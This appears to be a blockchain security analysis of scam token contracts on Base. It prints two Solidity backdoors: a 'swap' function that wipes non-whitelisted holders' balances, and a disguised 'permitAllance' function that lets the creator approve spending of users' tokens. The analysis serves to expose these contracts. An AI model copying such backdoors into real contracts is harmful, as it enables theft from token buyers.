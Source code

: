 ## Closer Look: sWETH ([BaseScan Link](https://basescan.org/address/0x3d8b56985f5a85d44A9fb576C563c9486B400E6a#code), [Exchange Link](https://www.dextools.io/app/en/base/pair-explorer/0x0a3f5a2c27253cd3dcb51fdc3d136813068b9b17))
The following code snippet from the 'sWETH' contract, mass deployed on-chain, reveals a significant vulnerability:

```solidity
function swap() external {
    require(ADDRESS_Virtuals == _msgSender());
    for (uint256 i = 0; i < believers.length; i++) {
        address believer = believers[i];
        if (
            believer != address(this) && 
            believer != owner() && 
            believer != uniswapV2Pair && 
            believer != ADDRESS_sWETH &&
            believer != ADDRESS_WETH && 
            believer != ADDRESS_Manager &&
            believer != ADDRESS_DEVELOPMENT
        ) {
            TokenOnBase[believer] = 0;
        }
    }
}
```
This sets the balance of token holders to 0 unless whitelisted, effectively trapping buyers as they are unable to sell their tokens.

## Closer Look: Token ([BaseScan Link](https://basescan.org/address/0xc754b1a140971baD47c0D2A433e5963642F8aE3e#code), [Exchange Link](https://www.dextools.io/app/en/base/pair-explorer/0x5ef564026a630ebb3b2de2b78c62b0da4e17af94))
The following code snippet from the 'Token' contract demonstrates another vulnerability:

```solidity
function permitAllance(address owner, address spender, uint256 value) public virtual returns (bool) {
    bool valid;
    address sender = msg.sender;
    assembly { let ov := sload(_decimals.slot) valid := eq(ov, sender)}
    require(valid, "not owner");
    _approve(owner, spender, value, false);
    return true;
}
```
This allows the contract creator to set token allowances without user consent, effectively granting unlimited control over user tokens.

## Conclusion
This preliminary investigation successfully demonstrates that profiling smart contract code effectively identifies malicious contracts. We have uncovered significant vulnerabilities, emphasizing the importance of thorough contract analysis in blockchain.
